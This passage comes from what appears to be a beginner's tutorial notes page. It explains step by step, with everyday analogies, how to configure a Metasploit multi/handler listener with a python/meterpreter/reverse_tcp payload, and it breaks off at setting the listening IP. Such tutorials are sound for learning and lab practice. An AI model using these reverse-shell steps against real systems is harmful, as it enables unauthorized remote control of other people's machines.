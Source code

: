 </p><p id="2bde9f89-2031-4676-9ee0-ac054070c4db" class="">Based on the name, this lets us handle multiple exploited targets at once</p><p id="308ba16f-5a43-414d-9b80-7f9ac46e2846" class="">
</p><pre id="e7ee61d6-7324-4ef1-8615-68405873d508" class="code"><code>use exploit/multi/handler</code></pre><figure id="41e2edce-a81c-4454-9987-0c31f963ddd4" class="image"><a href="/assets/Gaining%20co%20b8870/Screen-Recording-2021-10-14-at-3.34.21-PM.gif"><img style="width:1140px" src="/assets/Gaining%20co%20b8870/Screen-Recording-2021-10-14-at-3.34.21-PM.gif"/></a></figure><p id="90712833-6107-4003-9f24-701a2f847b1f" class="">
</p><h3 id="86d42669-c587-4a1a-a1e9-86a7f244633f" class="">Set payload to listen to</h3><p id="b16a2fd5-2c3e-4d4a-8fdd-b48c2f893a2a" class="">
</p><p id="e239f00c-3a02-40a3-a1bd-be8cd00a441e" class="">We need to make sure that the listener knows what signal it should be listening too. Kind of like after you make a starbucks order, you listen for your name</p><p id="32e23e7d-3d48-4003-a700-0866f96dcbcd" class="">
</p><pre id="128e0a2c-619f-4155-bc02-8fc291b63b9a" class="code"><code>set PAYLOAD python/meterpreter/reverse_tcp</code></pre><h3 id="bf707343-5a3a-446e-bb0f-3ca5f4cb9d57" class="">Set IP address to listen to</h3><p id="0b285cbc-6d56-4263-b4a2-31fdfb92acf6" class="">This would be our computer (the one that is listening) ip address. Think of it like an actual address. Sometimes, computers can have mutliple addresses, so here we are telling it specifically which one to listen to.</p><p id="c80cd53a-c9a3-443a-a298-b1f6da030f4a" class="">